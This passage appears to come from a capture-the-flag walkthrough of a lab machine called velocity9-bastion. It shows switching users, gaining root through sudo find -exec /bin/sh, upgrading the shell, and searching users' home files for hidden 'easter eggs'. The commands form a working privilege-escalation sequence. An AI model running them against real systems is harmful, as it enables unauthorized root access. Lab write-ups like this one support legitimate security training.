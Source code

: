 ```
c199999@velocity9-bastion:~$ su x195184
Password: 
x195184@velocity9-bastion:/home/c199999$ 
```
It worked!
We know this user is able to run the `find` command elevated.\
Quick check on GTFOBins again gives us a possible route to `root`

```
x195184@velocity9-bastion:/home/c199999$ sudo find . -exec /bin/sh \; -quit
# 
```
Boom, Pwn3d...

Currently we only have a basic shell, with no tab auto-complete etc. sigh!\
Let's improve that by upgrading to a fully interactive shell.

```
# script -q /dev/null
root@velocity9-bastion:/home/c199999#
```

![root](https://user-images.githubusercontent.com/117080369/211194010-68f23160-de49-44e9-951b-17b6d648f892.png)

$~$

### $\color{magenta}{BONUS\ -\ EASTER\ EGG}$
For a bit of fun I thought it would be cool to hide `easter eggs` within the contract but not mention anything about it.

If you remember back we already stumbled across 2 of the "easter eggs".
* M1cr0s0ft (Easter Egg: 3 of 5)
* r3mUV8y5 (Easter Egg: 2 of 5)

We know there are 5 easter eggs in total to find, now that we have root access this should be a trivial task locating the remaining 3 using a simple `find` command.

```
root@velocity9-bastion:/home/c199999# find /home -type f -exec grep -l -i "(Easter Egg:" {} \; 2>/dev/null
/home/x196954/.Branding/.Ai7/.New-Branding-Ai7
/home/x160727/outstanding-task-list
/home/x162310/passwords2.txt
/home/x113931/Paint3D/.configuration
root@velocity9-bastion:/home/c199999#
```

Egg 5:
```
root@velocity9-bastion:/home/c199999# cat /home/x196954/.Branding/.Ai7/.New-Branding-Ai7
 __   __   _         _ _        ___ 
 \ \ / /__| |___  __(_) |_ _  _/ _ \
  \ V / -_) / _ \/ _| |  _| || \_, /
   \_/\___|_\___/\__|_|\__|\_, |/_/ 
                           |__/    

Velocity9 (Easter Egg: 5 of 5)

To claim your Easter Egg put the 5 eggs together eggactly as found, seperated by a hypen, then go to /opt/.contract/.B0neShad0w

Example: egg1-Egg2-eGg3-egg4-EGG5 
root@velocity9-bastion:/home/c199999#
```
